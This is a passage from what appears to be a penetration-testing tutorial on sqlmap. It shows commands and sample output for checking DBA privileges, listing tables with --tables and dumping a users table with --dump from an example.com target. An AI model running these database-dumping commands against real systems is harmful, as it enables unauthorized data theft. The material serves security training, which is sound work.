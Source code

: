 ```bash
[13:30:58] [INFO] testing if current user is DBA
[13:30:58] [INFO] fetching current user
current user is DBA: True
[13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 13:30:58 /2020-09-17/
```
From the example above,  we can see that the database version is quite old (``MySQL 5.1.41 - from November 2009``), and the current user name is `root`, while the current database name is `testdb`.
>[!Important] Note:
> The '``root``' user in the database context in the vast majority of cases does not have any relation with the OS user "``root``", other than that representing the privileged user within the DBMS context. 
> 
> This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.

### Table Enumeration
In most common scenarios, after finding the **current database** name (i.e. `testdb`), the retrieval of table names would be by using the `--tables` option and specifying the DB name with `-D testdb`, is as follows:
```bash
$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

After spotting the table name of interest, retrieval of its content can be done by using the `--dump` option and specifying the table name with `-T users`, as follows:
```bash
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+

[14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'
```
